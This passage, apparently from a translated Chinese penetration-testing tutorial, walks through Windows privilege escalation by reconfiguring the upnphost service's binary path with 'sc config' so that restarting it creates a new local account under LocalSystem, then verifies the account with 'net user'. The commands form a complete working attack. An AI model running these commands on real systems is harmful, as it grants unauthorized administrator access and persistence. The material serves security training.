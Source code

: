 1.  一旦我们知道有两个服务可以访问所有用户的权限，我们将检查服务配置。在命令提示符中输入以下命令：

```
    sc qc upnphost

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_017.jpg)

1.  现在我们将更改服务的二进制路径，因为应用程序已经给予了所有访问权限。在需要恢复到原始状态时，保留服务配置的副本。现在在终端中输入以下命令：

```
    sc config upnphost binpath= "net user attack attack@123 /add"
          sc config upnphost obj= ".\LocalSystem" password= ""

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_018.jpg)

1.  我们看到我们的命令已成功执行。现在让我们通过发出以下命令来验证并重新启动服务：

```
    sc qc upnphost
          net start upnphost

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_019.jpg)

1.  完成后，我们会看到一个服务无响应的错误。然而，这是注定会发生的：由于二进制路径不正确，它将尝试使用系统权限执行二进制路径。在这种情况下，它应该创建一个用户。让我们通过发出以下命令来检查：

```
    net user

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_020.jpg)
